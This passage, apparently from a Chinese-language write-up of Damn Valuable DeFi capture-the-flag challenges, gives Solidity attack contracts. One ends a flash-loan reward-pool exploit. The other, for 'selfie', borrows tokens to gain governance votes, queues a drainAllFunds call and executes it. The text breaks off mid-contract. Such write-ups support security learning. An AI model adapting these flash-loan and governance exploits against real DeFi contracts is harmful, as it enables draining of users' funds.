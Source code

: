  ```
      rewardToken.transfer(msg.sender,rewardToken.balanceOf(address(this)));
    }
    function receiveFlashLoan(uint256 amount)public payable{
      liquidToken.approve(address(theRewarderPool),amount);
        theRewarderPool.deposit(amount);
        theRewarderPool.withdraw(amount);
       liquidToken.transfer(address(flashpool),amount);
    }
    fallback()external payable{

    }

}
```

![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/43d75b25f4a54862bb4267a08f978b62~tplv-k3u1fbpfcp-watermark.image?)
 
# 6.selfie
题目要求：拿到池内所有的1.5million token

这个题有一个drainAllFunds函数，只要是Governance 就可以提走合约里的所有钱。然后我们去看一下SimpleGovernance合约，他有一个queueAction函数可以传入data构造数据，executeAction执行。  
那么我们可以在data里执行drainAllFunds函数，攻击就成功了

还需要做的一件事情就是满足queueAction的条件，我们可以通过借钱满足`_hasEnoughVotes`，然后构造好特定 data 后传入 `queueAction()` 函数，然后归还贷款，最后执行 `executeAction()` 函数。

## 攻击代码
**攻击合约：**
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "../DamnValuableTokenSnapshot.sol";

import "./SimpleGovernance.sol";
import "./SelfiePool.sol";
contract attack3{
   SimpleGovernance public governance;
   SelfiePool public pool;
   DamnValuableTokenSnapshot public token;
   uint256 public actionId;
   address public owner;
   constructor(address _governance,address payable _pool,address _token,address _attacker)public{
       governance = SimpleGovernance(_governance);
       pool =SelfiePool(_pool);
       token=DamnValuableTokenSnapshot(_token);
      owner=_attacker;
   }
   function attack()public{
       pool.flashLoan(token.balanceOf(address(pool)));
    
      
   }
   function receiveTokens(address addrtoken,uint256 amount)public{
     token.snapshot();
     bytes memory data=abi.encodeWithSignature("drainAllFunds(address)", owner);
    actionId= governance.queueAction(address(pool), data, 0);
     token.transfer(address(pool),amount);

   }
   function fian()public {
     governance.executeAction(actionId);
```